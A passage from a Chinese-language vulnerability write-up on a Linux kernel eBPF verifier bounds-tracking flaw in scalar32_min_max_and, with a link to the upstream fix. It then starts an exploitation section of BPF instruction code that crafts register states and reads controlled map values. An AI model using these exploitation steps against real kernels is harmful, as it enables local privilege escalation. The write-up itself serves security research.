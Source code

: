 * 接下来的`__reg32_deduce_bounds`和`__reg_bound_offset`不会对R2的边界值产生影响

即在这种情况下我们得到的**R2最小值是1，最大值是0**.

这显然是不合理的，而根本原因就在于在`scalar32_min_max_and`函数中，没有调用`__mark_reg32_known`更新u/s32_min/max_value，这也是后来的[fix方案](https://git.kernel.org/pub/scm/linux/kernel/git/bpf/bpf.git/patch/?id=10d2bb2e6b1d8c4576c56a748f697dbeb8388899)

### Exploitation

上述例子就是漏洞触发的路径，构造两个寄存器

```
R2.var_off = {mask = 0xffffffff00000000, value = 0x01}; 即低32bits是known, 高32bits unkown.
R3.var_off = {mask = 0x0, value = 0x100000002}; 即整个64bits是known的，值为0x100000002;
```

第二个相对更容易构造，因为所有的bit都是`known`的，直接可以赋值，但是由于指令的限制，我们只能用32bits运算

```assembly
		BPF_LD_IMM64(BPF_REG_8, 0x1);					// r8 = 0x1
		BPF_ALU64_IMM(BPF_LSH, BPF_REG_8, 32);			// r8 <= 32 	== 0x10000 0000
		BPF_ALU64_IMM(BPF_ADD, BPF_REG_8, 2);			// r8 += 2  	== 0x10000 0000 2
```

对于的一个，要获得`mask=0xffffffff00000000`，可以是先得到一个对于`verifier`看来完全是`unknown`的值，此时的`mask= 0xffffffffffffffff`；最直接的方法就是从map中取一个值。并且这种方法允许我们在运行时控制map的实际值，便于利用。

```
		// Load a pointer to map_fd map info R9 R1
		BPF_LD_MAP_FD(BPF_REG_9, mapfd);
		BPF_MOV64_REG(BPF_REG_1, BPF_REG_9);			// r1 = mapfd

		// R2=stack_ptr - 4
		BPF_MOV64_REG(BPF_REG_2, BPF_REG_10);
		BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4);

		//Store the value 0 at stack_ptr - 4
		BPF_ST_MEM(BPF_W, BPF_REG_10, -4, 0);			// r2 =  stack_ptr - 4; *r2 = 0

		// Call helper function map_lookup_elem, First parameter is in R1 // (map pointer). Second parameter is in R2, (ptr to elem index   // value).  *(word*)(stack_ptr-4) = 0)
		BPF_RAW_INSN(BPF_JNE | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem);
```

调用`map_lookup_elem(mapfd, 0)`，将得到mapfd第一个elem，返回值在`R0`中。

```
		BPF_LDX_MEM(BPF_DW, BPF_REG_5, BPF_REG_0, 0);
```

上述过程可以封装为一个`BPF_MAP_GET`（获取mapfd的指定elem）

```
#define BPF_MAP_GET(idx, dst)                                                \
	BPF_MOV64_REG(BPF_REG_1, BPF_REG_9),                                     \
		BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),                                \
		BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),                               \
		BPF_ST_MEM(BPF_W, BPF_REG_10, -4, idx),                              \
		BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem), \
		BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),                               \
		BPF_EXIT_INSN(),                                                     \
		BPF_LDX_MEM(BPF_DW, dst, BPF_REG_0, 0),                              \
		BPF_MOV64_IMM(BPF_REG_0, 0)
```
